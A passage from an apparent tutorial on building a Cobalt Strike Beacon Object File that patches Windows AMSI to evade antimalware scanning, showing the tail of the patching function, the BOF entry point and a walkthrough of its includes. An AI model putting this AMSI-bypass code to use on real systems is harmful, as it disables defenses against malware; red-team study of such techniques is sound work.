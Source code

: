 ```
	}

	//Revert back memory protection via NTProtectVirtualMemory
	status = NtProtectVirtualMemory(NtCurrentProcess(), (PVOID)&lpBaseAddress, (PULONG)&uSize, OldProtection, &NewProtection);
	if (status != STATUS_SUCCESS) {
		BeaconPrintf(CALLBACK_ERROR , "[-] NtProtectVirtualMemory2 failed\n");
		return 0;
	}
	
	//Successfully patched AMSI
	return 1;	
}

/*BOF Entry Point*/
void go(char* args, int length) {
//Patch amsi
BOOL success = 1;
success = patchAMSI();

//If patching AMSI fails exit gracefully
if (success != 1) {
	BeaconPrintf(CALLBACK_ERROR, "Patching AMSI failed.");
	return;

} else {
	BeaconPrintf(CALLBACK_OUTPUT, "[+] Amsi successfully patched!");
    }
}
```

This might appear overwhelming at first glance but we'll walk through each individual part together.

- We start off with a few imports.

```
#include <windows.h>
#include <io.h>
#include <stdio.h>
#include <fcntl.h>
#include <evntprov.h>
#include "beacon.h"
#include "inlineExecute-Assembly.h"
```

Out of those imports, *2* are not standard! 

```
#include "beacon.h"
#include "inlineExecute-Assembly.h"
```

We will need to include them in our current working directory when compiling the *BOF*.
